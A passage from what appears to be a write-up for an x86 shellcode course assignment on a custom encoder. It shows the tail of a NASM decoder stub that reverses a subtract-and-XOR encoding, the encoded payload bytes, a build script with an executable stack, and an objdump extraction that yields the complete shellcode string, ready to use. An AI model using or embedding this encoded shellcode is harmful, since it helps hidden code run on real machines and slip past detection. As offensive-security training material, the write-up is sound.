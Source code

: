 	mov byte [edi], bl;move the two bytes away value to the address where 0xcc used to be, which is where edi now points to
	sub byte [edi], 0x5 ;minus 5 bytes where edi points to
	xor byte [edi], 0xBB ; XOR the value edi points to with 0xBB
	inc edi ;point edi to the next address
	add al, 2 ;eax points to two bytes away, to another 0xcc
	jmp short decode

call_shellcode:

	call decoder
	Shellcode: db 0x8f,0xcc,0x80,0xcc,0x8f,0xcc,0x65,0xcc,0x8f,0xcc,0x77,0xcc,0x8f,0xcc,0x6e,0xcc,0x8f,0xcc,0x52,0xcc,0x8f,0xcc,0x49,0xcc,0xe2,0xcc,0x08,0xcc,0xe1,0xcc,0xbf,0xcc,0x0d,0xcc,0xbe,0xcc,0x0f,0xcc,0xbf,0xcc,0x7b,0xcc,0x40,0xcc,0x37,0xcc,0x82,0xcc,0x37,0xcc,0x7d,0xcc,0x0f,0xcc,0xbd,0xcc,0x8f,0xcc,0x80,0xcc,0x10,0xcc,0x89,0xcc,0x7b,0xcc,0x40,0xcc,0xf7,0xcc,0xc7,0xcc,0x51,0xcc,0x8f,0xcc,0x65,0xcc,0x37,0xcc,0x4d,0xcc,0xe2,0xcc,0x08,0xcc,0xd6,0xcc,0xbf,0xcc,0xf1,0xcc,0xd8,0xcc,0x80,0xcc,0x18,0xcc,0x78,0xcc,0x38,0xcc,0xe2,0xcc,0xd8,0xcc,0xaf,0xcc,0xec,0xcc,0xe2,0xcc,0xd6,0xcc,0xbe,0xcc,0x37,0xcc,0x5f,0xcc,0x0e,0xcc,0xe2,0xcc,0x7b,0xcc,0x40,0xcc,0x8f,0xcc,0x80,0xcc,0xf0,0xcc,0xd8,0xcc,0x99,0xcc,0x99,0xcc,0xcd,0xcc,0xd8,0xcc,0xd8,0xcc,0x99,0xcc,0xde,0xcc,0xd7,0xcc,0xda,0xcc,0x37,0xcc,0x5d,0xcc,0xf0,0xcc,0x37,0xcc,0x5e,0xcc,0xed,0xcc,0x37,0xcc,0x5f,0xcc,0x10,0xcc,0xb5,0xcc,0x7b,0xcc,0x40,0xcc,0xdd,0xdd
{% endhighlight %}

Note: The "0xdd"s I added at the end of the shellcode are used for telling if the shellcode is reaching to the end.

### Step3 - Compile the decoder and extract the shellcode

Compile.sh:
{% highlight js %}
#!/bin/bash

echo '[+] Assembling with Nasm ... '
nasm -f elf32 -o $1.o $1.nasm

echo '[+] Linking ...'
ld -z execstack -o $1 $1.o

echo '[+] Done!'
{% endhighlight %}

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment4$ ./compile.sh decoder
[+] Assembling with Nasm ... 
[+] Linking ...
[+] Done!
kali@kali:~/Desktop/SLAE-Assignments/assignment4$ objdump -d ./decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\xeb\x29\x5e\x80\x2e\x05\x80\x36\xbb\x8d\x7e\x01\x31\xc0\xb0\x01\x31\xdb\x8a\x1c\x06\x80\xf3\xcc\x75\x16\x8a\x5c\x06\x01\x88\x1f\x80\x2f\x05\x80\x37\xbb\x47\x04\x02\xeb\xe7\xe8\xd2\xff\xff\xff\x8f\xcc\x80\xcc\x8f\xcc\x65\xcc\x8f\xcc\x77\xcc\x8f\xcc\x6e\xcc\x8f\xcc\x52\xcc\x8f\xcc\x49\xcc\xe2\xcc\x08\xcc\xe1\xcc\xbf\xcc\x0d\xcc\xbe\xcc\x0f\xcc\xbf\xcc\x7b\xcc\x40\xcc\x37\xcc\x82\xcc\x37\xcc\x7d\xcc\x0f\xcc\xbd\xcc\x8f\xcc\x80\xcc\x10\xcc\x89\xcc\x7b\xcc\x40\xcc\xf7\xcc\xc7\xcc\x51\xcc\x8f\xcc\x65\xcc\x37\xcc\x4d\xcc\xe2\xcc\x08\xcc\xd6\xcc\xbf\xcc\xf1\xcc\xd8\xcc\x80\xcc\x18\xcc\x78\xcc\x38\xcc\xe2\xcc\xd8\xcc\xaf\xcc\xec\xcc\xe2\xcc\xd6\xcc\xbe\xcc\x37\xcc\x5f\xcc\x0e\xcc\xe2\xcc\x7b\xcc\x40\xcc\x8f\xcc\x80\xcc\xf0\xcc\xd8\xcc\x99\xcc\x99\xcc\xcd\xcc\xd8\xcc\xd8\xcc\x99\xcc\xde\xcc\xd7\xcc\xda\xcc\x37\xcc\x5d\xcc\xf0\xcc\x37\xcc\x5e\xcc\xed\xcc\x37\xcc\x5f\xcc\x10\xcc\xb5\xcc\x7b\xcc\x40\xcc\xdd\xdd"

{% endhighlight %}
